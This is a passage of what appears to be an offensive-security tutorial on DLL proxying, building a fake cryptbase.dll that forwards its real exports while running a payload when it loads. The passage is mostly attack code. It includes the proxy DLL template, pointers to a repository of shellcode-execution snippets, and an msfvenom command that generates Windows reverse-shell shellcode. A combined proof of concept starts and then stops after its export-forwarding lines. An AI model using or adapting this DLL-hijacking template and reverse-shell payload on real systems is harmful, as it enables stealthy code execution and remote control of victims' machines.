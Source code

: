 ```C
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>

VOID Payload() {
    // Run your payload here.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Payload();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Now let's tweek the malicious template from Spartacus!
I created [Offensive CPP](https://github.com/lsecqt/OffensiveCpp) repository, its idea is to host offensive C/C++ independent snippets, which can be used in various scenarios. Let's copy some shellcode execution code. 
During the demo, I am using the [FileMap](https://github.com/lsecqt/OffensiveCpp/blob/main/Shellcode%20Execution/FileMap/directPointerToFileMap.cpp) snippet.

The last step is to generate a shellcode from msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c
```

After combining the pieces I created the following POC:
```C++
#pragma once

#pragma comment(linker,"/export:SystemFunction001=C:\\Windows\\System32\\cryptbase.SystemFunction001,@1")
#pragma comment(linker,"/export:SystemFunction002=C:\\Windows\\System32\\cryptbase.SystemFunction002,@2")
#pragma comment(linker,"/export:SystemFunction003=C:\\Windows\\System32\\cryptbase.SystemFunction003,@3")
#pragma comment(linker,"/export:SystemFunction004=C:\\Windows\\System32\\cryptbase.SystemFunction004,@4")
#pragma comment(linker,"/export:SystemFunction005=C:\\Windows\\System32\\cryptbase.SystemFunction005,@5")
#pragma comment(linker,"/export:SystemFunction028=C:\\Windows\\System32\\cryptbase.SystemFunction028,@6")
```